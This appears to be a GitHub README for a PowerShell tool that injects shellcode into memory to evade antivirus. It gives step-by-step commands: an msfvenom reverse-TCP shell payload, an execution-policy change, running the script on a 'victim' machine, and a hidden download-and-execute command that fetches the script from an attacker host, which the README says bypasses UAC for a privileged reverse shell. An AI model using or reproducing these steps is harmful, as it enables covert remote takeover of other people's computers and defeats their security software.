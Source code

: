 # AntiVirus-bypass-PowerShell-In-Memory-Injection
Script made for bypassing antivirus using Powershell Injection method. Place your shellcode from msfvenom on line 15

[VirusTotal Scan 19/59](https://www.virustotal.com/gui/file/449a8fa6c25894a068b31a62399fda83093cdf430cad98ef579dd70d39df0907/detection)

<h3>Before running the script you have to set the ExecutionPolicy to unrestricted:</h3>

```
powershell.exe

Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
```

<h3>Example of the payload needed:</h3>

```
msfvenom -p windows/shell/reverse_tcp LHOST=IPkali LPORT=4444 -f powershell
```

<h3>Then we copy the payload like this:</h3>

![Captura de pantalla 2023-02-27 210003.jpg](https://raw.githubusercontent.com/sergiovks/AntiVirus-Bypass-PowerShell-In-Memory-Injection/main/screenshots/Captura%20de%20pantalla%202023-02-27%20210003.jpg)

<h3>And paste the payload to the 15th line of the .ps1 file:</h3>

![Captura de pantalla 2023-02-27 210359.jpg](https://raw.githubusercontent.com/sergiovks/AntiVirus-Bypass-PowerShell-In-Memory-Injection/main/screenshots/Captura%20de%20pantalla%202023-02-27%20210359.jpg)

<h3>Save the final PowerShell script and run it within the victim Windows machine.</h3>

<h3>We can combine this script with the use of the following command in order to download and inject the script as an Administrator user bypassing UAC, obtaining a privileged reverse shell:</h3>

First of all you have to setup a python web server to host the payload, change the attacker IP and the PowerShell script name.

```
python3 -m http.server 80
```

Then you can use this command within the Windows target system:

```
$RegValue = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ep Bypass -windowstyle hidden -nop iex (New-Object Net.WebClient).DownloadString('http://IPattacker/AVbypass.ps1'); Invoke-Function"
```
